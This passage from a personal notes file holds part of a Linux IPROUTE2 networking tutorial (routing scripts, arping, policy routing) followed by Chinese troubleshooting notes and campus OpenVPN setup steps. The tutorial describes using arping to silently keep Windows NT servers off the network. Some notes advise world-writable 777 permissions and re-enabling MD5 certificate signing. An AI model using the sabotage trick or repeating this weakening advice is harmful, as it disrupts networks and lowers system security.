DeadLoop --- total number of packets, which were not transmitted because tunnel is looped back to itself.

NoRoute --- total number of packets, which were not transmitted because there is no IP route to remote endpoint.

NoBufs --- total number of packets, which were not transmitted because kernel failed to allocate buffer.

ip monitor and rtmon --- route state monitoring

The ip utility allows monitoring the state of devices, addresses, and routes continuously. This option has a different format in that the command monitor is first on the command line followed by the object list.

ip monitor [ file FILE ] [ all OBJECT-LIST ]

OBJECT-LIST is the list of object types which we want to monitor. It may contain link, address, and route. If no file argument is given, ip opens RTNETLINK, listens to it and dumps the state changes in the format as described in the previous sections.

If a file name is given ip does not listen to RTNETLINK but opens the file which is assumed to contain RTNETLINK messages saved in binary format and dumps them. Such a history file can be generated with the utility rtmon. This utility has a command line syntax similar to ip monitor. Ideally, rtmon should be started before the first network configuration command is issued. It is possible to start rtmon at any time as it prepends the history with the system state snapshot dumped at the moment of startup.

rtacct - route realms and policy propagation

On routers using OSPF ASE or especially the BGP protocol, the routing tables may be huge. If we want to classify or account for the packets per route, we will have to keep lots of information. Even worse, if we want to distinguish the packets not only by their destination, but also by their source, the task presents a quadratic complexity and its solution is physically impossible.

One approach for propagating the policy from routing protocols to the forwarding engine has been proposed. Essentially, Cisco Policy Propagation via BGP is based on the fact that dedicated routers have the entire RIB (Routing Information Base) close to forwarding engine so that policy routing rules can check all the route attributes including ASPATH information and community strings.

Within the Linux architecture where we have a split RIB as maintained by user level daemon, and the kernel based FIB (Forwarding Information Base), we cannot allow such a simplistic approach.

Fortunately there exists another solution allowing an even more flexible policy with rich semantics. Routes can be clustered together in user space based on their attributes. IE: A BGP router knows the route ASPATH or its community whereas an OSPF router knows the route tag or its area. A network administrator adding routes manually knows the nature of those routes. Providing that the number of such aggregates, which we call realms, is low, the task of full classification both by source and destination becomes quite manageable.

So each route may be assigned to a realm. It is assumed that this identification is made by a routing daemon, but static routes may also be assigned manually through ip route.

Currently there exists a patch to gated allowing it to classify routes to realms over all the set of policy rules. This classification is implemented within gated by prefix, ASPATH, origin, tag, etc.

To facilitate this construction in the case when the routing daemon is not aware of realms, missing realms may be completed with routing policy rules.

For each packet the kernel calculates the tuple of realms, source realm and destination realm, using the following algorithm:

1. If route has a realm, destination realm of the packet is set to it.

2. If rule has a source realm, source realm of the packet is set to it.

3. If destination realm was not obtained from route and rule has destination realm, set destination realm from rule.

4. If at least one of realms is still unknown, kernel finds reversed route to the source of the packet.

5. If source realm is still unknown, get it from reversed route.

6. If one of realms is still unknown, swap realms of reversed routes and apply step 2 again.

After this procedure is completed, we know what realm the packet arrived from and the realm where it is going to propagate to. If any of the realms is unknown, it is initialized to zero (or realm unknown).

The main application of realms is in conjunction with the tc route classifier where they are used to help assign packets to traffic classes, for accounting, policing, and scheduling them according to the classification.

A much simpler but still very useful application is packet path accounting by realms. The kernel gathers a packet statistics summary which can be viewed with utility rtacct.

kuznet@amber~ $ rtacct russia

Realm BytesTo PktsTo BytesFrom PktsFrom

russia 20576778 169176 47080168 153805



This output shows that this router has received 153805 packets from realm russia and forwarded 169176 packets to russia. The realm russia consists of routes with ASPATHs not leaving russia.

Note that locally originated packets are not accounted here as rtacct shows ingoing packets only. Using the route classifier you can get even more detailed accounting information about outgoing packets, optionally summarizing traffic not only by source or destination, but by any pair of source and destination realms.

IP Utility Summary

We have presented in this section coverage of the ip utility from the IPROUTE2 utility suite. As we have shown this is the replacement under Linux for the ifconfig and route utilities for performing advanced IP network manipulation. While the standard utilities will suffice for simple setups we recommend using the ip utility instead in order to both be familiar with the usage as well as able to utilize the vast power of this utility. Linux possesses one of the most complete and powerful implementations of IP networking facilities available. We will now cover some of the basics of using the ip utility within scripts.

IP Usage in Scripting

In this section we will use what we have learned about the ip utility to create and learn from several scripts. First we will create ipup and ipdown scripts for our system. Then we will cover the operation of Alexey's ifcfg script from IPROUTE2 that uses the ip utilities to provide a stronger version of ifconfig. Finally we will cover an example of creating multiple route tables for splitting up outgoing traffic.

IPUP & IPDOWN

In this section we will create some custom networking scripts along with the core /etc/rc.d/init.d/network script using the IPROUTE2 utility suite.

First let us consider how we would manually configure the interfaces with the ip utility. The first interface is lo and it was configured under ifconfig as: ifconfig lo 127.0.0.1 netmask 255.0.0.0 broadcast 127.255.255.255. Rewriting this in ip we get two lines because of the granularity of control. So we have:

ip addr add 127.0.0.1/8 dev lo broadcast +

ip link set lo up

If we want to substitute this directly into the ipup script we would fail as the format of the configuration file, ifcfg-lo, is different from the information we need to configure the interface using ip. Also remember that the ip utility allows us to set multiple addresses on a single interface and our ipup script should allow us to take full advantage of that facility without requiring it.

To configure multiple address on our network interface we will use a loop over all the possible values of addresses within a variable. Additionally we may want to allow for renaming the device before assigning addresses so that the output of our listings makes better logical sense. So first we should think about what variables we would require in a configuration script. Then we can start writing the ipup script to take advantage of the ip utility functions and our configuration variables.

Consider the following interface configuration file:

#!/bin/sh

#>>>Device type: ethernet

#>>>Variable declarations:

DEVICE=eth0

DEVNAME=inet0

IPCIDR="192.168.1.1/24

10.3.123.1/28"

STARTME=1

#>>>End variable declarations

We have ip addresses recorded in the CIDR format that is used by the ip addr command. We have the actual kernel boot supplied interface name and also a variable for renaming the device. Finally we have the on-boot initialization switch. We want our ipup script to allow on-boot init as well as after boot init functions. Since we can define more than one IPv4 address within this configuration we need a loop function to iterate the address assignment. Combining all of these needs we get the following script.

***Begin Listing - ipup script***

#!/bin/bash

cd /etc/sysconfig/network-scripts/

. $1

if ([ $STARTME -eq 1 ] || [ "$2" = "now" ])

then

/sbin/ip link set $DEVICE down

DEV=$DEVICE

if [ -n $DEVNAME ]; then

/sbin/ip link set $DEVICE name $DEVNAME

DEV=$DEVNAME

fi

for ADDRESS in $IPCIDR

do

/sbin/ip addr add $ADDRESS broadcast + dev $DEV

done

/sbin/ip link set $DEV arp on

/sbin/ip link set $DEV up

fi

***End Listing***

Note that we allow for both changing or not changing the device name. The inner loop assigns all addresses that are listed in the IPCIDR variable to the device. Thus with a simple config file and a short ipup script we can setup our network devices with custom names and multiple addresses.

Let us take a quick look at the related ipdown script that uses the ip utility.

***Begin Listing - ipdown script***

#!/bin/bash

cd /etc/sysconfig/network-scripts/

. $1

DEV=$DEVICE

if [ -n $DEVNAME ]; then

DEV=$DEVNAME

fi

for ADDRESS in $IPCIDR

do

/sbin/ip addr del $ADDRESS dev $DEV

done

/sbin/ip link set $DEV down

/sbin/ip link set $DEV arp off

if [ -n $DEVNAME ]; then

ip link set $DEVNAME name $DEVICE

fi

***End Listing***

Note that we change the device name back to the original kernel defined name. That way we can switch between using any set of utilities we want as any particular set will restore the device to the same state as it started from.

IPNetwork Init Script

Now that we have new ipup, ipdown, and ipcfg-xxx files, let us turn our attention to the init file that runs the ipup script on system bootup. On our systems this file is called ipnetwork and resides in the /etc/rc.d/init.d/ directory. We will consider the final format of this file as it is written with the IPROUTE2 utilities in mind.

***Begin Listing - /etc/rc.d/init.d/ipnetwork***

#

# IP network Turn on/off IP networking

#

# Source function library.

. /etc/rc.d/init.d/pakinit.functions

. /etc/sysconfig/ipnetwork


cd /etc/sysconfig/network-scripts


# See how we were called.

case "$1" in

start)

pakcmd "ipup.mon" "Starting Monitor" exec /sbin/rtmon file \

/var/log/iproute.log &

pakcmd "ipup.lo" "Starting LoopBack " ./ipup ipcfg-lo

for IF in $INTERFACES ; do

for i in ipcfg-$IF[0-9]; do

pakcmd "ipup.$i" " Starting IP Interface $i " ./ipup $i

done

if [ -r ipcfg-routes ]; then

pakcmd "ipup.2" "Starting IP Static Routes " ./ipcfg-routes

fi

done

;;

stop)

for IF in $INTERFACES; do

for i in ipcfg-$IF[0-9]; do

pakcmd "ipdown.$i" "Downing IP Interface $i " ./ipdown $i

done

done

;;

*)

echo "Usage: ipnetwork {start|stop}"

exit 1

esac


exit 0

***End Listing***

We now posess a complete set of IP configuration scripts that will use the ip utility to create and destroy IP interfaces. Note that when we consider IPv6 these scripts can also be used with only minor changes. Then we will have configuration files and scripts that cover both protocols.

ifcfg script

We will now dissect a shell script provided in the IPROUTE2 package. This script is called ifcfg and Alexey wrote it as a replacement for ifconfig. Here is the full text of the script:

***Begin Listing - ifcfg script***

#! /bin/bash


CheckForwarding () {

local sbase fwd

sbase=/proc/sys/net/ipv4/conf

fwd=0

if [ -d $sbase ]; then

for dir in $sbase/*/forwarding; do

fwd=$[$fwd + `cat $dir`]

done

else

fwd=2

fi

return $fwd

}


RestartRDISC () {

killall -HUP rdisc || rdisc -fs

}


ABCMaskLen () {

local class;

class=${1%%.*}

if [ "$1" = "" -o $class -eq 0 -o $class -ge 224 ]; then return 0

elif [ $class -ge 224 ]; then return 0

elif [ $class -ge 192 ]; then return 24

elif [ $class -ge 128 ]; then return 16

else return 8; fi

}


label="label $1"

ldev="$1"

dev=${1%:*}

if [ "$dev" = "" -o "$1" = "help" ]; then

echo "Usage: ifcfg DEV [[add|del [ADDR[/LEN]] [PEER] | stop]" 1>&2

echo " add - add new address" 1>&2

echo " del - delete address" 1>&2

echo " stop - completely disable IP" 1>&2

exit 1

fi

shift


CheckForwarding

fwd=$?

if [ $fwd -ne 0 ]; then

echo "Forwarding is ON or its state is unknown ($fwd). OK, No RDISC." 1>&2

fi


deleting=0

case "$1" in

add) shift ;;

stop)

if [ "$ldev" != "$dev" ]; then

echo "Cannot stop alias $ldev" 1>&2

exit 1;

fi

ip -4 addr flush dev $dev $label || exit 1

if [ $fwd -eq 0 ]; then RestartRDISC; fi

exit 0 ;;

del*)

deleting=1; shift ;;

*)

esac


ipaddr=

pfxlen=

if [ "$1" != "" ]; then

ipaddr=${1%/*}

if [ "$1" != "$ipaddr" ]; then

pfxlen=${1#*/}

fi

if [ "$ipaddr" = "" ]; then

echo "$1 is bad IP address." 1>&2

exit 1

fi

fi

shift


peer=$1

if [ "$peer" != "" ]; then

if [ "$pfxlen" != "" -a "$pfxlen" != "32" ]; then

echo "Peer address with non-trivial netmask." 1>&2

exit 1

fi

pfx="$ipaddr peer $peer"

else

if [ "$pfxlen" = "" ]; then

ABCMaskLen $ipaddr

pfxlen=$?

fi

pfx="$ipaddr/$pfxlen"

fi


if [ "$ldev" = "$dev" -a "$ipaddr" != "" ]; then

label=

fi


if [ $deleting -ne 0 ]; then

ip addr del $pfx dev $dev $label || exit 1

if [ $fwd -eq 0 ]; then RestartRDISC; fi

exit 0

fi


if ! ip link set up dev $dev ; then

echo "Error: cannot enable interface $dev." 1>&2

exit 1

fi

if [ "$ipaddr" = "" ]; then exit 0; fi


if ! arping -q -c 2 -w 3 -D -I $dev $ipaddr ; then

echo "Error: some host already uses address $ipaddr on $dev." 1>&2

exit 1

fi


if ! ip address add $pfx brd + dev $dev $label; then

echo "Error: failed to add $pfx on $dev." 1>&2

exit 1

fi


arping -q -A -c 1 -I $dev $ipaddr

noarp=$?

( sleep 2 ;

arping -q -U -c 1 -I $dev $ipaddr ) >& /dev/null </dev/null &


ip route add unreachable 224.0.0.0/24 >& /dev/null

ip route add unreachable 255.255.255.255 >& /dev/null

if [ `ip link ls $dev | grep -c MULTICAST` -ge 1 ]; then

ip route add 224.0.0.0/4 dev $dev scope global >& /dev/null

fi


if [ $fwd -eq 0 ]; then

if [ $noarp -eq 0 ]; then

ip ro append default dev $dev metric 30000 scope global

elif [ "$peer" != "" ]; then

if ping -q -c 2 -w 4 $peer ; then

ip ro append default via $peer dev $dev metric 30001

fi

fi

RestartRDISC

fi


exit 0

***End Listing***

We will take this script apart piece by piece and explain what it is doing. At the end of this you should have a good understanding of the way an IP address can be checked for correct operation.

First off notice that there are several functions defined early in the script. The first one, CheckForwarding(), performs a check using the integer values present within the interface forwarding sysctl. The second one, RestartRDISC(), is for restarting the router discovery daemon. The third one, ABCMasqLen(), is just for making assumptions about the standard class netmask.

The script begins by assigning the first argument as the device name and then performing some error checking. If the arguments are incorrect or the help switch was provided then the usage for the command is printed out. Note from the usage statement that this command expects the netmask to be in CIDR format. If the netmask is not in CIDR format or is provided incorrectly then the class assumption is made. Having assigned the device name to the ldev variable we shift the arguments and check on our forwarding setup. If the forwarding is on we print a message and continue assigning the forwarding result to the fwd variable.

We next take up the case statement that determines what operations we will perform on the interface. In the case of add we shift arguments and continue, in the case of del we set a variable then shift and continue. The case of stop brings up a quick flush of the entire interface ip addressing. Note that on the stop routine we first check to make sure we are not dealing with legacy aliased devices. Such devices use the dev:# format and should not be used anymore due to the new multiple address structure available for IP. Note also that after we flush the interface addressing we restart the router discovery daemon if our forwarding sysctl is equal to zero. If we are running a router then we will have set the forwarding status to ensure that other devices can interoperate with us. See Chapter 4 on sysctl for more information.

In the case we are adding or deleting an interface address we continue on through checking the given address and mask length. Then we check on the peer address and determine if it is a single valued ip address. Once we pass these checks we test the netmask to determine if we can safely use it. If the netmask does not exist then we call the standard class netmask function to determine the standard class for the given ip address. This function will return the class netmask as a CIDR mask value based solely on the first octet of the address. Once we either have a defined netmask or have generated one from our address we then can define our ip address completely using CIDR format.

We have now completed parsing our arguments and now start into the actual work of manipulating the interface. We first cover the case where we are deleting the ip address from the interface. After deleting the address we again restart the router discovery daemon if our forwarding sysctl is equal to zero to ensure the update of the routing tables. If we are not deleting an address from an interface we start running the verification testing. This is where we can learn how to create better scripts for our own interface addressing.

The first test run simply verifies that the interface device can be enabled. If not then the script aborts because without a running device we cannot do any configuration of the addressing. After determining that the ip address we will use is non-null we run a duplicate address test. This is an important check to see if the address we want to use already exists on the local network. This uses the arping utility which can manipulate arp functions. This utility is very powerful and provides quite a few functions for determining and using the ip network structure. We will diverge a bit here to discuss this utility.

arping utility

The arping utility is one of several helpful ip utilities provided in the iputils package from Alexey Kuznetsov. The utilities in this package include arping, clockdiff, ping, ping6, rdisc, tracepath, tracepath6, and traceroute6. The collection should be installed on any machine where you will be running any of the advanced ip networking functions. These commands can be used to disrupt the network so caution must be exercised in their use and accessability.

Arping itself provides an IPv4 ping utility that uses ARP packets for communication. This is very usefull for manipulating arp tables on other local network devices. The arping utility can provide duplicate address testing on the local network and two types of unsolicited ARP output to enable quick updating of local network device arp tables. This latter functionality can be used to create hot standby servers on a network that allow failover of identical ip addresses to alternate devices. It can also be used to wreak havok on a local network that is not configured to prevent sabatoge.

WARNING!

If you do not understand how these functions work then we strongly reccommend that you obtain a copy of TCP/IP Illustrated Vol. 1 by W. Richard Stevens and read it. Without a firm understanding of the basic mechanisms of TCP/IP v.4 network communication most of the utilities we discuss and procedures we execute can cause severe disruption of your network.

Now that we understand what this utility provides let us return to the discussion of the ifcfg script.

We have now checked that the ip address provided on the command line is not already in use on our local networks. We now assign the ip address to the associated device and determine the correct completion of the command. Once this assignment has succesfully completed we use the unsolicited ARP mechanism of arping to update the arp caches on all of the neighboring devices. This provides instant access to our ip device from any of the local network ip devices.

WARNING!

If you have Win95/98/NT machines in your network be warned that the Windows TCP/IP network stack performs duplicate address testing incorrectly as specified by RFC-2131. Windows TCP/IP stack sends out a gratuitous ARP immediately on starting TCP/IP. This forces interruption of IP networking services if the IP address is already in use and prevents the TCP/IP stack on Windows from starting. There is no known way to workaround this fatal bug in Windows TCP/IP stacks. Do not use proxy ARP or the arping functions in a Windows TCP/IP environment.

Sadly enough the arping utility is very popular among disgruntled network people as an anonymous way of preventing NT servers from starting up. It is ridiculously simple to have the Linux machine watch for GratArp requests and issue an arping response thus preventing the NT from enabling the network card. And since ARP must be specially watched for by almost all network management systems it is rarely detected that this trick is being played. And even if you are watching you REALLY need to know what is going on as it looks "normal" for the original transaction to take place.

Quoting Alexey here as he replied to a MCSE who brought this up on LinNetDev:

"You have learned your networking from a broken pile of crap and you expect me to break my system so that you in your dumbness will be happy?"

Of course I almost did not include this here as there are enough problems in this world without purposefully baiting the stupid.. 8-} - Enough said.



Now that we have installed our address and updated the local network hosts we turn to setting up a corrected routing structure. We will first deal with routes to the multicast address class and the broadcast class. We start by sending both of these routes into the table main with a setting of host unreachable. We then test our link device for multicast capabilities. If the link is multicast enabled we allow the route for the multicast address class to be assigned to the device.

Finally we test again if the interface is forwarding. In the case of no forwarding we further test for the arp capabilities and peer addresses. If our interface has arp capabilities then we place a default route with a high metric out our device. In the case where we have a peer address then we test for the presence and insert a default route via our peer address with a somewhat high metric. In either case with no forwarding we restart router discovery as the final step.

Now that we have covered the script operation let us look at the utilities and logic behind it with an eye towards modifying our own interface address assignment scripts. First of all we will note the use of the router discovery agent. This agent is one of the reasons we stressed in the parts on ip route why you should always add a protocol level to your routes. We stressed that if you will be using ip route to add routes to the tables that you code them with protocol static to enable the kernel to know that they are valid static routes. Here is one of the reasons why this is important. Under router discovery the rdisc daemon can override routes that are non protocol tagged. So if we had just placed a default route into our table and we then start router discovery we will find that our route is not being used unless we coded the protocol. This is even more important if we will use any of the routing daemons such as zebra or gated.

Note that even in this script we need to try and use CIDR notation format for our IP addressing. This is actually a very good requirement as it speaks directly to the function of address masking. IP address masks, and IPX address masks as well, require that the mask portion be contiguous. When we write out a mask using the old style dotted decimal it is impossible to indicate the continuity of the mask. Consider the address mask 255.252.255.0. If you do not understand that masks must be contiguous then this looks like it could be a valid mask. We say that knowing that many people configuring IP systems rely on the numbers belonging to the set of good numbers. This set is: 255,254,252,248,240,224,192,128 So the assumption is that if these numbers are present then the mask must be valid. Using CIDR style notation we indicate the number of contiguous ones starting from the left in the mask. In this manner it is impossible to specify an invalid mask. Additionally you can readily see the scope of the address mask in CIDR notation thus making it easier to see where a route would be a more specific or general set of another route. So our choice of using CIDR address notation within our configuration file turns out to be the best way of specifying our addressing.

As far as considering the uses of the arping utility, as we mentioned in the warning above Microsoft Windows IPv4 stacks do not handle duplicate address detection correctly thus using arping on such a network can be problematic. We would not recommend using it except for the duplicate address detection. In our case we will not want to place it into our scripts except in cases where we know that we will need to perform duplicate address detection due to oddly configured DHCP servers and other such high levels of keyboard-seat interface errors.

Policy Routing - Multiple Route Tables Example

We will now consider what is arguably the most powerful feature in the Linux kernel routing code: The use of multiple routing tables combined with policy based routing. In the following text we will present an example of a system acting as a router for three disparate networks. We will return to this example and consider the ipchains utility in the latter half of this book where we cover Linux security and firewalls.

First off look at the diagram of the network we have under consideration:



Multiple Route Tables Network Diagram

Note that we have three external networks attached to our external ethernet interface. Each of these networks has their own router and their own IP address space that we need to use. Note that two of these address spaces overlap thus adding in a degree of complexity. We will want to setup our routing tables to allow the following connectivity.

*	All traffic from any internal network may go to the Internet

*	Traffic from Internal B may go to Network A

*	Traffic from Internal A may go to Network C

*	Traffic from Internal A Hosts 33-62 may go to Network A

*	Traffic from Internal B Hosts 65-78 may go to Network C

First we will want to setup our external IP addressing. We will setup two addresses on our DMZ ethernel interface.

***Begin Listing***

ip addr add 10.254.254.2/30 dev eth0

ip addr add 172.17.1.128/24 dev eth0

***End Listing***

Next we will cover what route tables we will want to create.

One of the best ways to look at this is to consider that policy routing enables us to determine what routing table to use for source addresses. So the rules should enable us to segment the internal networks. Then we can setup normal destination based routes within the tables. So let us create two new route tables and then discuss the ramifications of this decision.

First we will name the tables by editing the /etc/iproute2/rt_tables file. We will end up with a file that looks like the following:

***Begin Listing***

#

# reserved values

#

255 local

254 main

253 default

0 unspec

#

# Local Tables

#

1 networka

2 networkb

***End Listing***

Now we can refer to these tables in the rule commands. First we will set up the routes in each of these tables.

When you go about setting up the routes within tables there is an approach you can take which will help clarify the steps. Imagine that you are configuring a router that only has two interfaces. The outgoing interface attaches to any outbound router and the incoming interface already only has the packets you want to route. Then it is simply a matter of setting up the routing that you would want within that scope. Let us illustrate by running through the setup for table 1, networka. Here are the commands we would need to input to get the networka routing table configured:

***create networka routing table***

ip route add 10.10.0.0/16 via 10.254.254.2 table networka proto static

ip route add default via 172.17.1.254 table networka proto static

***End***

Now what is the command sequence for table networkb? Exactly.

***create networkb routing table***

ip route add 172.18.0.0/16 via 172.17.1.1 table networkb proto static

ip route add default via 172.17.1.254 table networkb proto static

***End***

Let us step back a moment and discuss why we have only two tables with three destinations. Notice that we have duplicated the destination default for the Internet into both tables. Why not place this into a third table that we will refer to? The best way to answer this is to consider the interaction between the rules and the tables. Remember that the rules define the policy based routing structure. Multiple rules may point to the same table. However once you are in a table you will need to either obtain a route or be returned via a throw route to the rule list. So if we have matched a rule we would like to assume that we have a correct match of our policy. Thus we would like all possible routes for that packet to be present in the routing table to which the packet is sent. In the case where we have three tables then we would have to have additional rules that actually need to look at the destination of the packet. But looking at the packet destination is the function of a standard route. So why have rules for every possible combination of source AND destination? By using the table we have we can create a few rules that will serve our purpose. Of course the flexibility of the system allows doing the other way around or even through granular inspection of the packets themselves. You should work through all of these scenarios for yourself and decide what works best for you. Enough theorizing, onwards to the action.

***ip rule set #1***

ip rule add from 192.168.1.32/27 to 172.18.0.0/16 pref 15000 table networka

ip rule add from 192.168.2.64/28 to 10.10.0.0/16 pref 15001 table networkb

ip rule add from 192.168.1.0/24 pref 15002 table networkb

ip rule add from 192.168.2.0/24 pref 15003 table networka

***End***

Note that we have used the preference settings to run our rules from most detailed to most general. Remember from the discussion of ip rule that there are two default rules with higher priorities present to catch whatever we do not specify here. These two default rules are very important. Think about what would happen if we forgot about those rules and specified priorities for our rules such as 65535? Would our rules ever be used?

So now consider what will happen to a packet incoming from one of our internal networks. First it will be passed through the rule priority 0 which will pass on it. Then it hits rule priority 15000. If it matches it will be routed according to table networka. If not it runs through rule 15001, then 15002, and finally 15003. Will such a packet ever continue on beyond rule priority 15003?

Now let us confuse the issue. We will redo our tables and rules from a different angle just to illustrate the range of flexibility we have to specify our routing structure.

First let us provide some details about our Linux server. Our Linux server has the following network interfaces and addresses:

eth0 - DMZ ethernet - addresses: 10.254.254.2/30, 172.17.1.128/24

eth1 - Internal A - addresses: 192.168.1.254/24

eth2 - Internal B - addresses: 192.168.2.254/24



Now we will run through the route and rule creation assuming we are starting from the beginning. First edit /etc/iproute2/rt_tables:

#/etc/iproute2/rt_tables

# reserved values

#

255 local

254 main

253 default

0 unspec

#

# Local Tables

#

1 int1

2 int2

#

Create the routes and rules.

***ip rule set #2***

ip route add 10.10.0.0/16 via 10.254.254.1 table int1 proto static

ip route add throw 0/0 table int1 proto static

ip route add 172.18.0.0/16 via 172.17.1.1 table int2 proto static

ip route add throw 0/0 table int2 proto static

ip route add 0/0 via 172.17.1.254 table main proto static

ip rule add pref 15000 table int1 iif eth1

ip rule add pref 15001 table int2 iif eth2

ip rule add pref 15002 to 10.10.0.0/16 table int1

ip rule add pref 15003 to 172.18.0.0/16 table int2

***End***

This set of routes and rules will perform the same operations as set #1. Study them until you see why. Hint: Do not forget the default rules. Later we will see how to use policy routing to perform miraculous tricks with packet paths.
*** 解压
解压缩：
1、*.tar 用 tar –xvf 解压
2、*.gz 用 gzip -d或者gunzip 解压
3、*.tar.gz和*.tgz 用 tar –xzf 解压
4、*.bz2 用 bzip2 -d或者用bunzip2 解压
5、*.tar.bz2用tar –xjf 解压
6、*.Z 用 uncompress 解压
7、*.tar.Z 用tar –xZf 解压
8、*.rar 用 unrar e解压
9、*.zip 用 unzip 解压
*** linux普通用户不能登录图形界面
问题：

普通用户(eg:administrator)不能登录linux图形界面，root用户（其他普通用户）可以登录到图形界面2

在Ubuntu登陆界面输入密码之后，黑屏一闪并且出现了check battery state之类的文字之后，又跳转到登录界面

普通用户一登录图形界面就会自动返回到KDM，但普通用户在命令行可以登陆

lightdm 循环在登陆界面

解决方案：

1.主目录下的/home/username/.Xauthority文件拥有者变成了root，从而以用户登陆的时候无法都取.Xauthority文件（推荐）
说明：Xauthority，是startx脚本记录文件。Xserver启动时，读文件~/.Xauthority,读入对应其display的记录。当一个需要显示的客户程序启动调用XOpenDisplay()也读这个文 件，并把找到的magic code 发送给Xserver。当Xserver验证这个magic code正确以后，就同意连接啦。观察startx脚本也可以看到，每次startx运行，都在调用xinit以前使用了xauth的add命令添加了一个新的记录到~/.Xauthority，用来这次运行X使用认证
1>用root账号登录【linux下添加删除修改用户 激活root登录用户 】，将.Xauthority的拥有者改为登陆用户（或者将其权限改成777或者干脆将.Xauthority删除）#chown pipi:pipi ~/.Xauthority

2>之前没有激活root账号，开机shift + ctrl + f1进入tty1,再修改(删除)/home/xxx/.Xauthority 文件，拥有者变为用户。按下shift + ctrl + F7切换回图形登陆界面登陆即可，重启

【这个问题产生原因： 手贱！在自己账户下 命令行 sudo startX
结果： 只能访问 guest session。由于 sudo startX 操作后，将 ~/.Xauthority 文件所有者改为了root， 因此只要tty命令行下登录用户，sudo chown acount:acount ~/.Xauthority 。 ctrl + alt + F7 】

Ubuntu’s documentation

2.路径的权限不对（可能是打包的时候设置的权限不对，不过具体是哪个包，需要查询）

修复如下：
chmod 755 /usr/{lib,include,share}

/tmp这个目录的权限不对，只要把这个目录的权限改成777（可以切换到普通用户上试一下能不能访问此目录即可！）

【原因：执行 rm -rf /tmp命令导致删掉tmp目录之后，系统自动重建了tmp目录，只是新建的目录权限来自于umask，其他用户没有足够的权限写入，出现此问题】

3.有没对用户home做磁盘限额呢，有的话检查下这个用户使用有没达到上限；没有做限额的话，从终端登入，把这个用户home下面有关图形的隐藏配置文件都删了（.gconf 、.gconfd、.gnome 、.gnome2、.gnome2_private 、.gstreamer-0.10 等）再试试登入看.里面有些配置文件，比如登入图形界面的时候异常关闭了，有可能导致配置信息出错，不能登入，所以让你把那些文件删了，再登入，那下文件会重新生成

要是还不行，就最暴力的方法，把用户home备份，然后把home里面的文件清空，包括隐藏文件，然后把/etc/skel目录下的隐藏文件cp到用户home下面，注意权限，如果是root cp的话，要改权限(用chown -R把修改后的home目录所有文件的所有者变成你的普通用户)，用户自己的账户cp就没关系，这样应该就可以图形登入了

4再不行就考虑别的问题.把用户目录先暂时移动的别的位置，再登陆就可以，但把原来的目录再移动回来，就又不能登陆了。

5.Your preferences files are currently in use.(If you are logged in this same account from another computer,the other login session is probably using your preferences files,)

You can choose to continue,but be aware that other login sessions may become temporarily confused.If you are not logged in elsewhere,it should be harmless to continue
Cancel Continue
Cancel退出到字符界面,Continue提示如下:
Please contact your system administrator to resolve the follow problem:
Could not resolve the address"xml:readwrite:/home/gavin/.gconf"in the configuration file"/etc/gconf/2/path"
Couldn't resolve address for configuration source:
Can't read from or write to the XML root directory in the address"xml:readwrite:/home/gavin/.gconf"
Close

from:http://blog.csdn.net/pipisorry/article/details/39755083

ref:无法登陆ubuntu图形界面，输入帐号后一闪而过。

Ubuntu输入密码登陆后又跳回到登录界面

startx analyze

mkdtemp: private socket dir:Permission denied

*** 解决无法运行Terminator出现以下问题： File "/usr/bin/terminator"...SyntaxError: invalid syntax
错误原因：语法错误．这是因为Terminator的安装或者运行需要python2的环境，但是却用python3的环境去运行Terminator了．
修改terminator的启动脚本(/usr/bin/terminator)如下：
#! /usr/bin/python2
*** vpn
https://bandwagonhost.com/
https://www.vultr.com/
**** openvpn
欢迎使用中国科学技术大学网络OpenVPN系统

OpenVPN是提供给中国科学技术大学用户从校外接入校园网的一种方式，

仅仅针对中国科学技术大学教师以及合肥以外校区学生提供，不对外提供服务。

根据有关部门要求，请登录学校统一认证系统验证身份后查看相关文档。

注意：使用VPN首先需要有具有VPN功能的网络通账号。

最新更改：
2013.09.29 增加CMCC移动出口，配置中增加reneg-sec 360000
2015.03.07 更新证书，2015年3月7日前下载过配置文件的，请重新下载下面的文件ca.crt，否则无法连接
2016.01.31 更新为2.3.10客户端，默认以管理员权限运行
2017.06.18 CentOS升级后openvpn无法连接，错误信息为"VERIFY ERROR: depth=0, error=CA signature digest algorithm too weak"
建议执行以下命令
echo -e "LegacySigningMDs md5" >> /etc/pki/tls/legacy-settings
2017.10.09 增加block-outside-dns说明
2018.11.15 登录后才能查看文档
1. 什么是VPN，为何要使用 OpenVPN
VPN可以让校外的计算机像在校内一样使用，包括使用"网络通"服务，访问文献站点。
我校提供三种从校外接入校园网的VPN服务器，分别是PPTP VPN、L2TP VPN和OpenVPN。

相关VPN说明请参见VPN说明文档

PPTP VPN不需要安装客户端，但在某些环境下无法连接，为了解决这个问题建设了OpenVPN系统。

2. 什么是OpenVPN
OpenVPN是一个开放源码的基于SSL的VPN系统，比我校使用的PPTP VPN 最大的优势在于仅仅使用UDP协议，支持从NAT设备后的连接。
OpenVPN开发站点在 www.openvpn.net。

3. 使用OpenVPN需要什么条件
3.1 使用VPN首先需要有具有VPN功能的网络通账号。
3.2 安装开放VPN客户端

开放VPN支持很多操作系统，请安装对应的客户端。

3.2 相关的配置文件: ustc-dianxin.ovpn、ustc-liantong.ovpn、ustc-cmcc.ovpn以及ca.crt。

为了方便不同网络的用户使用, 本VPN服务器同时设置了电信、联通和移动的IP地址(服务器各接口流量)
对应的IP地址为218.22.21.12、218.104.71.169和202.141.176.124,
对应的开放VPN连接分别是 ustc-dianxin 、 ustc-liantong 和 ustc-cmcc。

4. Windows 使用
1. 安装openvpn图形界面和openvpn程序
   根据操作系统版本，下载其中之一的安装文件(来自https://openvpn.net/index.php/open-source/downloads.html)并安装:

操作系统	软件
Installer (32-bit), Windows XP	openvpn-install-2.3.10-I001-i686.exe
Installer (64-bit), Windows XP	openvpn-install-2.3.10-I001-x86_64.exe
Installer (32-bit), Windows Vista and later	openvpn-install-2.3.10-I601-i686.exe
Installer (64-bit), Windows Vista and later	openvpn-install-2.3.10-I601-x86_64.exe


   安装TAP驱动的时候有个没有经过数字签名的警告,选择允许安装。

2. 把科大的openvpn配置文件openvpn.zip下载到机器临时目录，并解压出4个文件，将这4个文件拷贝到到openvpn安装目录config下面,一般是
   C:\program files\openvpn\config，也可能是C:\Program Files (x86)\OpenVPN\config

3. 到openvpn的安装目录bin下(默认是C:\program files\openvpn\bin)，找到openvpn-gui.exe, 在这个openvpn-gui.exe文件上单击鼠标右键,选择"以管理员身份运行"(英语是Run as Administrator)

4. 如果openvpn-gui已经启动，选择退出

